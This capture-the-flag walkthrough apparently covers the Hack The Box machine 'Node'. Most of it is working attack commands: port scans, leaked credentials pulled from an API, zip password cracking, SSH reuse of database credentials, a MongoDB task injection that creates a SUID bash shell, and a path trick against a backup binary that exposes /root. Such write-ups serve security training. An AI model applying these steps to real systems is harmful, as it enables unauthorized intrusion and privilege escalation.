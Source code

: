 ## Node

#### Scan to discover open ports
```sh
nmap -sS -P0 -n -p- -T5 -oA nmap-tcp-allports-fast 10.10.10.58
```

#### Enumerate the discovered ports
```sh
nmap -sV -n -sC -p22,3000 -oA nmap-tcp-foundports 10.10.10.58
```

Gobuster/dirbuster doesn't work as every response returns 200.

So fire up burp to intercept a request to `http://10.10.10.58:3000/`. Notice that there are 2 responses; one for `/` as expected but then another one for `/<uuid>`.

Navigate to the `/<uuid>` link from a browser through Burp. Go to the Target -> Site Map tabs and expand the 10.10.10.58 host. Notice the `/api/users/latest` file and you should see json content. If not then you can run:
```sh
$ curl -s http://10.10.10.58:3000/api/users | json_pp
```


Naviagate to the login page in a web browser at `http://10.10.10.58:3000/login`, enter the admin credentials discovered in `http://10.10.10.58:3000/api/users` and click the `Login` button.
Once you'ev logged in, click the `Download Backup` button that is presented to you and save the file as `myplace.backup.zip`.

#### Decode the content to reveal a zip file
```sh
$ base64 --decode myplace.backup > myplace.backup.zip
```

#### Crack the zip file
```sh
$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u myplace.backup.zip
```

#### Unzip the backup
```sh
$ unzip myplace.backup.zip
```

#### Review the app.js file
```sh
$ vim -R var/www/myspace/app.js
```

Notice the `const url` towards the top which contains a mongodb connection string including a username and password.

#### SSH into the Node box using the mongodb creds we just found
```sh
$ ssh 10.10.10.58 -l mark
```

#### Insert task into mongo-based task executor
```sh
# Connect to local mongo scheduler db
$ mongo -p -u mark scheduler

# Insert a new task to copy bash and SUID it
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/lsec; /bin/chmod u+s /tmp/lsec; chmod g+s /tmp/lsec"});

# See if task is still pending
> db.tasks.find()

# Exit mongodb
> Ctrl-D
```

#### Execute the SUID bash shell using the -p flag
```sh
$ /tmp/lsec -p
```

#### Find SUID programs now that we're Tom
```sh
$ find / -perm -4000 2>/dev/null
```

#### Investigate the `/usr/local/bin/backup` found in output above
```sh
$ ls -ltr /usr/local/bin/backup

$ file /usr/local/bin/backup

$ /usr/local/bin/backup
```
The above commands don't reveal much and guessing at the usage of the command results in no output.

#### Search for references to the backup binary in app.js
```
node$ grep backup /var/www/myplace
```
The last line above reveals the usage of the backup command, which references a `backup_key` which can be found the first line of output above. What if we try to backup the /root dir?
```
# Run the backup tool against /root
node$ /usr/local/bin/backup -q <backup_key> /root

# Copy and paste the output into your attack machine
eve$ vim node-slash-root.b64

# Base64 decode it into a zip file
eve$ base64 --decode node-slash-root.b64 > node-slash-root.zip

# Unzip using 7z and provide password gleaned from fcrackzip above
eve$ 7z x node-slash-root.zip

# We can see there is a root.txt, so let's look at it
eve$ cat root.txt
```
Instead of a root flag we see ASCII art of a troll face. :( So it seems that /root is blacklisted. What if we cd to the `/` directory and try backing up `root` as a relative path?
```
# Move to the / directory on the node box
node$ cd /

# Run the backup tool against root
node$ /usr/local/bin/backup -q <backup_key> root

# Copy and paste the output over to eve
eve$ vim node-relative-root.b64

# Base64 decode it into a zip file
eve$ base64 --decode node-relative-root.b64 > node-relative-root.zip

# Unzip using 7z and provide password gleaned from fcrackzip above
eve$ 7z x node-relative-root.zip

# We can see there is a root.txt, so let's look at it
eve$ cat root.txt
```
And now we can see the root flag! :)
